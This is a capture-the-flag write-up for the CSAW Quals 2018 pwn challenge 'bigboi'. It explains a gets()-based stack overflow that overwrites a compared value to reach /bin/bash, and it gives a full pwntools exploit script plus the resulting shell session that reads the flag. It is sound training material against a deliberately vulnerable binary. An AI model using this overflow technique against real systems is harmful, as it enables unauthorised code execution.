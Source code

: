 ## CTF: CSAW Quals 2018
## Category: PWN
## Point Value: 25
## Challenge Author: github.com/Helithumper

## Challenge Description

```bash
    bigboy
    Category: Pwn Points: 25 Solved: 656 Description:

    Only big boi pwners will get this one!

    nc pwn.chal.csaw.io 9000
```

We were given an ELF to work with. First thing I did was run `file` on it:
```bash
    boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```
So we were dealing with a 64 bit ELF.

Upon running, I found the following:
```bash
    ➜  boi ./boi
    Are you a big boiiiii??
    yes
    Wed Sep 19 04:27:55 UTC 2018
```
So when we give it text, it gives us the current time UTC... hmm

Disassembler time!

![Binary Ninja Disassembly](https://github.com/HackUCF/ctfs/raw/csaw_quals_bigboi/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi1.png)

So what we see is that a conditional is run after `read` is called to compare `eax` with `0xcaf3baee`. If our value is not equal to `0xcad3baee`, then `/bin/date` is run. Else `/bin/bash` is run. You can guess which path of execution we want...

So from what I can see here i'm betting it's a buffer overflow given that `gets` is used. `gets` doesn't check for buffer sizes and is thus extremely volatile. If I name both the variable that `gets` puts our input into as well as the variable being compared to `0xcaf3baee` in Binja, then we can see offsets:

![Stack Overview](https://github.com/HackUCF/ctfs/raw/csaw_quals_bigboi/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi2.png)

So we know that there is a difference of:

    0x38-0x28 = 16 Bytes

between our variables. The difference we see, however, is that our variable is actually at that offset `+0x4`.
![+0x4](https://github.com/HackUCF/ctfs/raw/csaw_quals_bigboi/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi3.png)
So we add 4 to 16 Bytes and we get an offset of 20 Bytes.

With this knowledge, we can then create our payload:
```python
    from pwn import *


    p = remote('pwn.chal.csaw.io',9000)

    print(p.recvline())

    payload = 'A'*20 + p64(0xCAF3BAEE)

    # gdb.attach(p)

    print(payload)
    p.sendline(payload)


    p.interactive()
```
When run, we get the following:
```bash
    me@mycomputer ~/D/c/c/boi> python exploit.py
    [+] Opening connection to pwn.chal.csaw.io on port 9000: Done
     _    ___        ____   ___  _ _ _ _

    AAAAAAAAAAAAAAAAAAAA���\x00\x00\x00
    [*] Switching to interactive mode
    | |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
    | '_ \| |/ _` | |  _ \| | | | | | | |
    | |_) | | (_| | | |_) | |_| | | | | |
    |_.__/___\__, | |____/ \___/|_|_|_|_|
             |___/
    ***************************************
    Are you a big boiiiii??
    AAAAAAAAAAAAAAAAAAAA���^@^@^@^@
    $ ls
    ls
    art.txt  boi  flag.txt    run.sh
    $ cat flag.txt
    cat flag.txt
    flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
    $
```
So yay. Shell and flag